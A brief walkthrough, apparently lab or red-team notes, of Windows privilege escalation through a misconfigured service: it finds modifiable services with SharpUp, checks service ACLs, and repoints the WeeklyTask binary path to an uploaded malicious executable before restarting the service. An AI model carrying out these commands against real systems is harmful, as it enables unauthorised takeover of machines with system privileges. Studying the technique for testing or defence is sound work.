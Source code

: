 - Unquoted Service Paths
- 
- Weak Service Permissions

###Step 1: Identify Modifiable Services:

  `C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices`

###Step 2: Check Service Permissions:
  `powershell-import C:\Tools\Get-ServiceAcl.ps1`
  `powershell Get-ServiceAcl -Name WeeklyTask | select -expand Access`

"
ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
"

###Step 3: Validate Current Binary Path:
  `sc qc WeeklyTask`

"
BINARY_PATH_NAME   : "C:\Program Files\Services\Update.exe"
"
We have successfully displayed the current path of the WeeklyTask service.

###Step 4: Upload Malicious Payload:
  Next, we upload a malicious payload to the system that we will configure the service to execute. We’ll place our payload in a temporary directory.

###Step 5: Change the Service's Binary Path
  Now that we have our payload uploaded, we can change the service's binary path to point to our malicious executable.

`sc config WeeklyTask binPath= C:\Temp\Teams.exe`

###Step 6: Stop and Start the Service
`run sc stop WeeklyTask`
`run sc start WeeklyTask`
